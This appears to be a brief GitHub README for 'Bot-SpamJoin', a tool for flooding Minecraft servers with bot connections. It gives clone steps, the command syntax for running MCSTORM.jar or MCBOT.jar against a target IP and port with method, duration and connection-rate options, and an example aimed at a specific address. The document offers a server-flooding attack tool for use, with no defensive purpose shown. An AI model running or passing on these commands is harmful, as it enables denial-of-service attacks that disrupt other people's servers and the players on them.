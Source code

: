# Bot-SpamJoin

## Cre: Nguon Tong Hop
* git clone https://github.com/truongthienbt/Bot-SpamJoin.git
* cd Bot-SpamJoin
* java -jar .\MCSTORM.jar [ip+port] [protocols] [methods] [time] [CPS]
* or 
* java -jar .\MCBOT.jar [ip+port] [protocols] [methods] [time] [CPS]


* EXAMPLE: java -jar .\MCSTORM.jar 51.222.105.212:41649 47 join 60 -1
